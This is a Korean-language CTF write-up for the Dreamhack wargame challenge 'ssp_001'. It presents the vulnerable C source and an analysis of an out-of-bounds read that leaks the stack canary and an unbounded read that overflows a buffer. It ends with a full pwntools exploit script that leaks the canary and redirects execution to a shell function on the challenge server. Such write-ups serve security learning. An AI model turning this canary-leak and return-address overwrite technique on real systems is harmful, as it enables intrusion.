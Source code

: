 ```yaml
---
title: "[ Dreamhack ] ssp_001"
date: 2023-03-10T08:08:17.763Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","pwn"]
---
```

![](/images/563c26d2-a1dd-4958-9967-dddddf3b4bfd-image.png)

<br>

## **문제 분석**

---

32bit 바이너리이며, NX하고 Canary가 걸려있다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

코드를 보면 다음과 같다
* 메뉴 F는 box에 값을 넣을 수 있다.
* 메뉴 P는 인덱스에 해당하는 box값을 볼 수 있다.
-> 인덱스를 입력받을 때 경계값 검사가 없어 box 밖의 값을 볼 수 있다.
* 메뉴 E는 이름을 입력하고 프로그램을 종료한다.
-> 이름 크기의 제한이 없어 BOF취약점이 존재한다.
* shell을 획득할 수 있는 get_shell()함수가 존재한다.

<br>

<br>

## **문제 풀이**

---
gdb로 분석해보자.

![](/images/0bad9f1e-4d69-4e61-995c-d20bd55e8f4e-image.png)

main함수에서 메뉴 F, P, E로 넘어가는 분기점이다. 위에서부터 각각 F, P, E 순서대로다.

<br>

![](/images/feccc696-7038-4242-b50f-c86f9518e35d-image.png)

메뉴 F에서 box안에 값을 입력받는 부분이다.

입력한 값이 ebp-0x88에 들어가는 것을 볼 수 있다. 따라서 box부터 canary까지의 거리는 0x80byte(0x88-0x8)이다.

<br>

![](/images/4d90f737-7561-48d0-a9fc-3e64597b0bcd-image.png)

메뉴 E에서 Name을 입력받는 부분이다.

Name은 ebp-0x48에 위치하고 있다. 따라서 Name부터 canary까지의 거리는 0x40byte이다.

<br>

![](/images/a3aa27d7-9de9-4ddc-a9ee-dd7622f8b131-image.png)

실제로 함수 P에서 인덱스 값을 canary위치에 맞게 넣어주면 1byte씩 추출할 수 있다.

<br>

마지막으로 payload를 작성할 수 있으며 이를 메뉴 E에서 Name에 넣어주면 된다.

```dummy(0x40) + canary(4byte) + dummy(4byte) + sfp(4byte) + return address(get_shell())```

<br>

<br>

## **Exploit Code**

```python
from pwn import *
p = remote('host3.dreamhack.games', 18839)

get_shell = 0x80486b9
buf2cnry = 0x80
name2cnry = 0x40
canary = '0x'

p.sendlineafter('> ', 'F')
p.sendlineafter('box input : ', 'AAAABBBBCCCCDDDD')

for i in range(4):
    p.sendlineafter('> ', 'P')
    p.sendlineafter('Element index : ', str(buf2cnry+(3-i)))

    p.recvuntil('is : ')
    canary += p.recv(2)

canary = int(canary,16)

payload = ''
payload += 'A'*name2cnry
payload += p32(canary)
payload += 'B'*8
payload += p32(get_shell)

p.sendlineafter('> ', 'E')
p.sendlineafter('Name Size : ', '10000')
p.sendlineafter('Name : ', payload)

p.interactive()
```
![](/images/7cecd4bb-40ca-42a8-b4b8-85d945db1fb7-image.png)
